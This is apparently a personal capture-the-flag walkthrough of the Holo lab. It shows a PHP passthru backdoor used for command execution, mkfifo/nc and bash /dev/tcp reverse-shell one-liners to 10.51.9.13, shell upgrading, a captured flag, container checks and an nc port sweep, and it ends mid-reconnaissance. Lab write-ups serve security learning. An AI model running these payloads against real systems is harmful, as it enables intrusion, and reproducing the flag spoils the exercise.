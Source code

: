 
```
admin
```

```
DBManagerLogin!
```

So we are in 

![[Pasted image 20240813203006.png]]

And we can see php is there let's see how to get the shell from here 

So i pasted the code that i found in the source code 
```
  <!--                   //if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->
```

and found that we have RCE here

```
http://admin.holo.live/dashboard.php?cmd=whoami
```
![[Pasted image 20240813203426.png]]

let's see if we are able to get a reverse shell

So i tried to get the version of python but i don't think it's installed (i.e. check which python)
but than bash came to my mind and it returned (i.e. which bash)
```
admin.holo.live/dashboard.php?cmd=which%20bash
```
![[Pasted image 20240813203747.png]]


After so many try's this one linear working as website got stuck which is an indication we might have got a shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.51.9.13 4242 >/tmp/f
```

```
%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F10.51.9.13%2F4242 0>%261
```

![[Pasted image 20240813204209.png]]

Let's get the full shell from the dummy shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg 
reset.

export TERM=xterm
```

![[Pasted image 20240813204531.png]]

Let's run the linpeas's and see what we find here
```
cat user.txt
HOLO{175d7322f8fc53392a417ccde356c3fe}
```

```
hostname
e932f030b3c8
```

```
uname -a
Linux e932f030b3c8 5.4.0-1030-aws #31-Ubuntu SMP Fri Nov 13 11:40:37 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

```
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   4632   824 pts/0    Ss   10:00   0:00 /bin/sh -c /e
root          27  0.0  0.4 373648 18708 ?        Ss   10:00   0:00 /usr/sbin/apa
www-data      30  0.0  0.3 374204 13004 ?        S    10:00   0:00 /usr/sbin/apa
www-data      31  0.0  0.1 373680  6980 ?        S    10:00   0:00 /usr/sbin/apa
www-data      32  0.0  0.3 374204 14128 ?        S    10:00   0:00 /usr/sbin/apa
www-data      33  0.0  0.2 374048 10972 ?        S    10:00   0:00 /usr/sbin/apa
www-data      34  0.0  0.1 373680  6980 ?        S    10:00   0:00 /usr/sbin/apa
mysql         75  0.0  0.0   4632  1720 ?        S    10:00   0:00 /bin/sh /usr/
mysql        429  0.1  4.6 1621092 188216 ?      Sl   10:00   0:01 /usr/sbin/mys
root         509  0.0  0.0  18512  3132 pts/0    S+   10:00   0:00 /bin/bash
www-data     516  0.0  0.1 373680  6984 ?        S    10:04   0:00 /usr/sbin/apa
www-data     517  0.0  0.0   4632   772 ?        S    10:04   0:00 sh -c rm /tmp
www-data     520  0.0  0.0   4676   744 ?        S    10:04   0:00 cat /tmp/f
www-data     521  0.0  0.0  18512  3420 ?        S    10:04   0:00 bash -i
www-data     522  0.0  0.0   6652  1892 ?        R    10:04   0:00 nc 10.51.9.13
www-data     527  0.0  0.2  36812  8532 ?        S    10:11   0:00 /usr/bin/pyth
www-data     528  0.0  0.0  18512  3396 pts/1    Ss   10:11   0:00 /bin/bash
www-data     550  0.0  0.0  34408  2800 pts/1    R+   10:28   0:00 ps aux
```

```
find / -perm -u=s -type f 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
```

```
cat /proc/1 cgroup
```

```
www-data@e932f030b3c8:/proc/1$ cat cgroup
cat cgroup
12:memory:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
11:freezer:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
10:devices:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
9:blkio:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
8:cpuset:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
7:rdma:/
6:pids:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
5:perf_event:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
4:net_cls,net_prio:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
3:cpu,cpuacct:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
2:hugetlb:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
1:name=systemd:/docker/e932f030b3c8681060f99dd5f2f180c8d080653491e81791490f879c869c2f9c
0::/system.slice/containerd.service
```

As we are not able to upload the nmap or anyfile for pingsweep so we have to come back to basics.
![[Pasted image 20240817165551.png]]

![[Pasted image 20240817165859.png]]

So we have to find the default Gateway
```
192.168.100.1
```

So will simply run the ping sweep on this

```
nc -zv 192.168.100.1 1-65535
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 33060 (?) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 8080 (http-alt) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 3306 (mysql) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 80 (http) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 22 (ssh) open
```

So which service looks juicy is mysql 3306



